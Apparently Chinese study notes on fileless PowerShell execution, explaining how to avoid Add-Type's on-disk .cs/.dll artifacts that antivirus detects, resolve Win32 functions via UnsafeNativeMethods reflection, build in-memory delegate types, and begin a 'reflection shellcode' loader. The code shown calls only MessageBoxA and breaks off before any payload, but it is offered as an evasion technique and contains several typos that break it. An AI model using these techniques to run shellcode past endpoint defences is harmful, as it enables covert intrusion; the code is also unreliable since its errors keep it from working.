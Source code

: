 ## Add-Type Compilation

```powershell
[appdomain]::currentdomain.getassembliew() | Sort-Object -Property fullname | Format-Table fullname
```

使用process monitor 查看进程信息 Filter - Filter 筛选规则powershell_ise.exe 
从监控结果可以看到，在执行Add-Type请求时，内存中会检测到 ReadFile / CloseFile / CreateFile .cs 文件执行操作 

在使用Add-Type 使用csc编译的时候 会在电脑硬盘创建.dll / .cs文件 容易被终端杀毒软件查杀。

 三步：
 定位/创建
 复制/加载
 执行
 
## Leveraging UnsafeNativeMethods 定位

 用Add-Type和DLLimport会在硬盘中创建文件，所以我们加载系统运行时可用到assembles
这里使用C语言完成查找，加载。
 
 ### 定位到可用到assemble

我们需要静态的 可读写可执行
```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.GetTypes()|
	  ForEach-Object{
	    $_ | Get-Member -Static | Where-Object {
		  $_.TypeName.Contains('Unsafe')
		}	
	  } 2 > $null
	}
```
我们需要找到包含GetModuleHandle和GetProcAddress这两个
```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.location
    $_.GetTypes()|
	  ForEach-Object{
	    $_ | Get-Member -Static | Where-Object {
		  $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
		}	
	  } 2 > $null
	}
```

发现满足条件的dll - system.dll
但是这个dll只能被.NET内部进行调用，powershell无法直接加载调用这个.dll 
#### GetModuleHandle 
```powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object{
  $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')})

$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
$GetModuleHandle.Invoke($null,@("user32.dll"))

```
输出user32.dll的HEX地址

#### GetProcAddress
```powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object{
  $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')})

$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')

$GetModuleHandle.Invoke($null,@("user32.dll"))

$tmp=@()
$unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress"){$tmp+=$_}}
$GetProcAddress =$tmp[0]
$GetProcAddress.Invoke($null,@($user32,"MessageBoxA"))

```

可以将这个写成一个function方便调用
```powershell

function LookupFunc{

	Param ($moduleName,$functionName)
	
	$assem = ([AppDomain]::CurrentDomain.GetAssemblies()|
	where-Object {$_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
	  Equals('System.dll')}).GetType('Microsoft.Win32.UnsafeNativeMethods')
	  
	$tmp=@()
	$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProAddress"){$tmp+=$_}}
	return $tmp[0].Invoke($null,@(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)),$functionName))

}

$MessageBoxA = LookupFunc user32.dll MessageBoxA
```

## DelegateType Reflection 加载 (这个底层逻辑有点难懂)
### GetDelegateForFunctionPointer

```powershell

function LookupFunc{

	Param ($moduleName,$functionName)
	
	$assem = ([AppDomain]::CurrentDomain.GetAssemblies()|
	where-Object {$_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
	  Equals('System.dll')}).GetType('Microsoft.Win32.UnsafeNativeMethods')
	  
	$tmp=@()
	$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProAddress"){$tmp+=$_}}
	return $tmp[0].Invoke($null,@(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)),$functionName))

}
$MessageBoxA = LookupFunc user32.dll MessageBoxA

$MyAssembly = New-Object System.Reflection.AssemblyName('ReflectedDelegate')
$Domain = [AppDomain]::CurrentDomain
$MyAssemblyBuilder = $Domain.DefineDynamicAssembly($MyAssembly,
  [System.Reflection.Emit.AssemblyBuilderAccess]::Run) //让这块内存可执行

$MyModuleBuilder =$MyAssemblyBuilder.DefineDynamicModule('InMemoryModule',$false)

$MyTypeBuilder =$MyModuleBuilder.DefineType('MyDelegateType',
  'Class,Public,Sealed,AnsiClass,AutoClass',[System.MulticastDelegate])

$MyConstructorBuilder = $MyTypeBuilder.DefineConstructor(
  'RTSpecialName,HideBySig,Public',
    [System.Reflection.CallingConventions]::Standard,
	@([IntPtr],[String],[String],[int]))
	
$MyConstructorBuilder.SerImplementationFlags('Runtime, Managed')
$MyMethodBuilder = $MyTypeBuilder.DefineMethod('Invoke','Public,HideBySig,NewSlot,Virtual',[int],@([IntPtr],[String],[String],[int]))
$MyDelegateType = $MyTypeBuilder.CreateType()

$MyFunction = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($MessageBoxA,$MyDelegateType)
$MyFunction.Invoke([InPtr]::Zero,"hello world","This is my message box",0)

```

## Reflection Shellcode in Powershell

```powershell

function LookupFunc{

	Param ($moduleName,$functionName)
	
	$assem = ([AppDomain]::CurrentDomain.GetAssemblies()|
	where-Object {$_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
	  Equals('System.dll')}).GetType('Microsoft.Win32.UnsafeNativeMethods')
	  
	$tmp=@()
	$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProAddress"){$tmp+=$_}}
	return $tmp[0].Invoke($null,@(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)),$functionName))

}

function getDelegateType {
	Param(
		[Parameter(Position = 0,Mandatory = $True)][Type[]] $func,
		[Parameter(Position = 1)][Type] $delType=[Void]	
	)
	
	$type = [AppDomain]::CurrentDomain.
	DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
	[System.Reflection.Emit.AssemblyBuilderAccess]::Run).
	  DefineDynamicModule('InMemoryModule',$false).
	  DefineType('MyDelegateType','Class,Public,Sealed,AnsiClass,AutoClass',
	  [System.MulticastDelegate])
	
	$type.
	  DefineConstructor('RTSpecialName,HideBySig,Public',[System.Reflection.CallingCoventions]::Standard,$func).SetImplementationFlags('Runtime, Managed')
	  
	$type.
	  DefineMethod('Invoke','Public,HideBySig,NewSlot,Virtual',$delType,$func).SetImplementationFlags('Runtime,Managed')
	  
	return $type.CreateType()
	)



}
```
